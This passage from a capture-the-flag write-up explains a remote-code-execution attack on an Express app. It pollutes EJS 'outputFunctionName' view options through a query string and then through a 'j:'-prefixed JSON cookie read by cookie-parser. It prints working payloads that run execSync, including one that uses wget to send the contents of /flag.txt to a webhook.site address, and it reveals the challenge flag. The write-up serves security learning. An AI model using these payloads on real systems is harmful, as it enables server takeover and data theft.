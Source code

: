 To try the RCE, we changed the source code by passing ```req.query``` as second parameter to ```render``` instead of ```rawJwt```. <br>
We also added some ```console.log``` calls to see the ```rawJwt``` at different stages and compare it to ```req.query```. <br>
Therefore, we can do the RCE locally with a query like this:

```
http://0.0.0.0:3000/?body=ve&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('touch /tmp/ve.txt');s
```

The resulting ```req.query``` object is:

{% highlight json %}
{
    "body": "ve",
    "settings": {
        "view options": {
            "outputFunctionName": "x;process.mainModule.require('child_process').execSync('touch /tmp/ve.txt');s"
        }
    }
}
{% endhighlight %}

The RCE part has ```settings``` as top-level key and is a nested object. <br>
We would like to set ```rawJwt``` like that, but it is a string when read as cookie, and when it becomes an object (in the "try" block) it doesn't set keys based on user-input, only values that are strings, anyway. <br>

So we thought that the best idea was to make the "try" block fail before re-assigning an object to ```rawJwt``` variable, in such a way that ```rawJwt``` keeps the fields it has when read as a cookie from ```req.cookies```. <br>
Then, we saw that ```cookie-parser``` package is used to read cookies. By reading online documentation, we saw that ```cookieParser``` function by default tries to decode JSON cookies. <br>
Therefore, we tried to set the cookie as JSON, but it was still parsed as string. <br>
At this point we investigated ```cookie-parser``` source code on GitHub, and saw that a cookie is parsed as JSON only if it has the prefix ```j:```, like you can see [here](https://github.com/expressjs/cookie-parser/blob/master/index.js#L83-L86). <br>
Furthermore, the cookie's value has to be URL encoded, obviously. <br>
We tested the RCE with the following cookie:

```
j:{"settings":{"view options":{"outputFunctionName":"x;process.mainModule.require('child_process').execSync('touch /tmp/shoto.txt');s"}}}
```

And it worked! <br>
Now we just have to send it to the real server, with an RCE payload to read the flag and send it to our webhook:

```
j:{"settings":{"view options":{"outputFunctionName":"x;process.mainModule.require('child_process').execSync('wget https://webhook.site/[REDACTED]/?flag=$(cat /flag.txt)');s"}}}
```

And here is the flag:

```
SCTF{p0pul4r_m0dule_Ar3_n0t_4lway3_s3cure}
```

